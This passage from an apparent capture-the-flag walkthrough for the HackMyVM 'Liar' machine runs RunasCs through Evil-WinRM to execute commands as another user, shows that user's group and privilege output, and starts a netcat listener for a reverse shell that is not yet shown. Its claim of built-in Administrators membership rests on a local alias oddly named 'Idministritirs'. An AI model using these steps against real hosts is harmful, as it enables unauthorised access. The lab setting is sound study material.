 After uploading the RunasCs executable, we can run a simple command i.e. `whoami /all` to enumerate Akanksha's user account.
```powershell
*Evil-WinRM* PS C:\Users\nica\Documents> .\RunasCs.exe akanksha <REDACTED>  "cmd /c whoami /all"


INFORMACI…N DE USUARIO
----------------------

Nombre de usuario        SID
======================== ==============================================
win-iurf14rbvgv\akanksha S-1-5-21-2519875556-2276787807-2868128514-1001


INFORMACI…N DE GRUPO
--------------------

Nombre de grupo                              Tipo           SID                                            Atributos
============================================ ============== ============================================== ========================================================================
Todos                                        Grupo conocido S-1-1-0                                        Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
WIN-IURF14RBVGV\Idministritirs               Alias          S-1-5-21-2519875556-2276787807-2868128514-1002 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios                             Alias          S-1-5-32-545                                   Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\INTERACTIVE                     Grupo conocido S-1-5-4                                        Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
INICIO DE SESI…N EN LA CONSOLA               Grupo conocido S-1-2-1                                        Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Usuarios autentificados         Grupo conocido S-1-5-11                                       Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Esta compaÏ­a                   Grupo conocido S-1-5-15                                       Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Cuenta local                    Grupo conocido S-1-5-113                                      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Autenticaci½n NTLM              Grupo conocido S-1-5-64-10                                    Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
Etiqueta obligatoria\Nivel obligatorio medio Etiqueta       S-1-16-8192


INFORMACI…N DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci½n                                  Estado
============================= ============================================ =============
SeChangeNotifyPrivilege       Omitir comprobaci½n de recorrido             Habilitada
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Deshabilitado
```

We can see from the enumeration above that this account is a member of the built-in Administrators group. We can execute a reverse shell on the target but before we do that, let's start a listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Liar]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```
